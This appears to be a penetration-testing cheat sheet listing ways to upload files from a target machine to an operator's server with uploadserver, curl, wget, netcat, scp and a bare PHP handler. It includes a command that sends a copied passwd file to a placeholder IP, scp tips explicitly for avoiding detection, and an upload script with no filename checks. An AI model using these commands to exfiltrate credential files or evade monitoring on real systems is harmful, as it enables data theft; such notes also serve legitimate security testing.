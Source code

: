 ### **FILE UPLOADING USING PYTHON AND CURL**

1.  Install uploadserver:  
    `sudo python3 -m pip install --user uploadserver`
2.  Generate a self-signed certificate:  
    `openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`
3.  Create a directory for the HTTPS server:  
    `mkdir https && cd https`
4.  Start the upload server with HTTPS support:  
    `sudo python3 -m uploadserver 443 --server-certificate ~/server.pem`
5.  Upload files using curl:  
    `curl -X POST https://hostname/upload -F 'files=@/path/to/file' --insecure`

### **FILE UPLOADER ON APACHE WEB SERVER**

1.  Create `upload.php` in `/var/www/html/`:
    
    ```php
    <?php
    $uploaddir = '/var/www/uploads/';
    $uploadfile = $uploaddir . $_FILES['file']['name'];
    move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
    ?>
    ```
    
2.  Create uploads directory and set ownership to www-data:  
    `mkdir /var/www/uploads && chown www-data:www-data /var/www/uploads`
    
3.  Upload a file using wget to the Python HTTP server:  
    `wget --post-file=/path/to/file http://[IP-ADRESS]/`
    
4.  Upload a file using wget to the Apache server with upload.php:  
    `wget --post-file=/path/to/file http://[IP-ADRESS]/upload.php`
    

### **FILE UPLOADER USING SIMPLEHTTPSERVERWITHUPLOAD**

1.  Start an HTTP server to accept file uploads using the script from [SimpleHTTPServerWithUpload](https://github.com/Tallguy297/SimpleHTTPServerWithUpload/blob/master/SimpleHTTPServerWithUpload.py):  
    `python3 SimpleHTTPServerWithUpload.py 80`
2.  Upload passwd file using curl:  
    `curl -F 'file=@/dev/shm/passwd' http://[IP-ADRESS]/`

### **FILE UPLOADING USING PYTHON REQUESTS MODULE**

1.  Install the uploadserver package:  
    `pip3 install uploadserver`
2.  Start a Python upload server:  
    `python3 -m uploadserver`
3.  Upload a file:  
    `python3 -c 'import requests;requests.post("http://[IP-ADDRESS]:8000/upload",files={"files":open("/path/to/file","rb")})'`

### **FILE UPLOADING USING NETCAT**

1.  Start a netcat listener to receive file and save it as file.txt:  
    `nc -nvlp 9001 > file.txt`
2.  Send the file.txt to the receiving machine:  
    `nc [IP-ADDRESS] 9001 < file.txt`

### **FILE UPLOADING USING SCP**

1.  **TRANSFERRING FILES WITH A SPECIFIC SSH KEY:**  
    To use a specific SSH key for authentication, include the `-i` option. This is useful when dealing with multiple SSH keys or when the default key is not suitable for the connection.  
    `scp -i /path/to/private_key [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
2.  **USING NON-STANDARD PORTS:**  
    SSH servers often use non-standard ports for security purposes. Specify the port with the `-P` option to ensure successful connections.  
    `scp -P 2222 [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
3.  **VERBOSE MODE FOR DEBUGGING:**  
    Verbose mode provides detailed information about the SCP transfer process, which is invaluable for debugging connection issues.  
    `scp -v [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
4.  **LIMITING BANDWIDTH USAGE:**  
    To avoid detection or to manage network resources efficiently, you can limit the bandwidth usage during file transfer using the `-l` option (specified in kilobits per second):  
    `scp -l 1000 [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
5.  **TRANSFERRING ENTIRE DIRECTORIES:**  
    When you need to transfer entire directories, use the `-r` option to copy recursively. This ensures all files and subdirectories are included.  
    `scp -r [DIRECTORY-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
6.  **PRESERVING FILE ATTRIBUTES:**  
    To preserve file attributes such as modification times, access times, and modes, use the `-p` option:  
    `scp -p [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
7.  **QUIET MODE:**  
    To minimize output and avoid drawing attention, use the `-q` option for quiet mode. This suppresses non-error messages.  
    `scp -q [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
